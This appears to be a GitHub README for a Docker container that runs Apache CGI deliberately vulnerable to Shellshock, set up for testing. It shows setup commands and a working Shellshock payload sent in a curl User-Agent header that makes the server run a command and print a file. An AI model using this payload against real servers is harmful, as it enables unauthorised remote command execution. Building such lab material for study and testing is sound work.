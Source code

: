 docker-shellshockable
=====================

Docker container with Apache 2 / CGI shellshock vulnerable.


``` sh
#> docker run -d --name shellshock zenithar/shellshockable
#> docker ps
#> export WEBSRV=`docker inspect shellshock | grep IPAddress | cut -d \" -f 4`
#> curl http://$WEBSRV/cgi-bin/shockme.cgi
#> curl -A "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /usr/lib/cgi-bin/shockme.cgi" http://$WEBSRV/cgi-bin/shockme.cgi
```

